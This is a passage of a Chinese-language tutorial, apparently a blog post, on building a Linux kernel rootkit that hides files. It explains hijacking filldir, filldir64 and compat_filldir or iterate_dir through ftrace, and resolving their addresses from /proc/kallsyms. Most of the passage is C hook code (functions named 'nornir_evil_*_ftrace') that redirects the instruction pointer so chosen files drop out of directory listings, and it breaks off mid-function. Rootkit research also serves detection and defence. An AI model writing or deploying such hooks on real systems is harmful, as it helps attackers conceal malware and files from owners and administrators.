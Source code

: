 填充返回给用户的数据的核心逻辑便是调用 `ctx->actor()`，**也就是调用 filldir/filldir64/compat_filldir 函数**，这也是大部分文件系统对于 `iterate/iterate_shared` 的实现核心之一，而这类函数的作用其实是**将文件遍历的单个结果填充回用户空间**

由此我们有两种隐藏文件的方法：

*   **直接劫持** `filldir&filldir64&compat_filldir` **函数，在遇到我们要隐藏的文件时直接返回**，从而完成文件隐藏的功能
*   由于 `iterate_dir()` 的参数之一便是 `ctx` ，因此我们也可以劫持 `iterate_dir()` 后修改 `ctx->actor`

> 需要注意的是这些函数对内核模块并不导出，因此我们需要通过用户态进程辅助读取 `/proc/kallsyms` 来获得其地址

hook 函数的模板在前面已经给出，这里不再赘叙，我们只需要判断是否为我们要隐藏的文件，如果是则直接返回即可，现笔者给出如下示例代码：

```
static int
nornir_exec_orig_compat_filldir(struct dir_context*ctx, const char *name,
                                int namlen, loff_t offset, u64 ino,
                                unsigned int d_type)
{
    if (unlikely(nornir_get_hidden_file_info(name, namlen))) {
        return 0;
    } else {
        return 1;
    }
}
 
static void
nornir_evil_filldir_ftrace(unsigned long ip, unsigned long parent_ip,
                           struct ftrace_ops *ops, struct ftrace_regs *fregs)
{
#ifdef CONFIG_X86_64
    if (unlikely(!nornir_exec_orig_filldir(
        (void*) fregs->regs.di, (void*) fregs->regs.si, (int) fregs->regs.dx,
        (loff_t) fregs->regs.cx, (u64) fregs->regs.r8, (unsigned) fregs->regs.r9
    ))) {
        fregs->regs.ip = (size_t) nornir_filldir_placeholder;
    }
#else
    #error "We do not support ftrace hook under current architecture yet"
#endif
}
 
static void
nornir_evil_filldir64_ftrace(unsigned long ip, unsigned long parent_ip,
                             struct ftrace_ops *ops, struct ftrace_regs *fregs)
{
#ifdef CONFIG_X86_64
    if (unlikely(!nornir_exec_orig_filldir64(
        (void*) fregs->regs.di, (void*) fregs->regs.si, (int) fregs->regs.dx,
        (loff_t) fregs->regs.cx, (u64) fregs->regs.r8, (unsigned) fregs->regs.r9
    ))) {
        fregs->regs.ip = (size_t) nornir_filldir_placeholder;
    }
#else
    #error "We do not support ftrace hook under current architecture yet"
#endif
}
 
static void
nornir_evil_compat_filldir_ftrace(unsigned long ip, unsigned long parent_ip,
                                  struct ftrace_ops *ops,
                                  struct ftrace_regs *fregs)
{
#ifdef CONFIG_X86_64
    if (unlikely(!nornir_exec_orig_compat_filldir(
        (void*) fregs->regs.di, (void*) fregs->regs.si, (int) fregs->regs.dx,
        (loff_t) fregs->regs.cx, (u64) fregs->regs.r8, (unsigned) fregs->regs.r9
```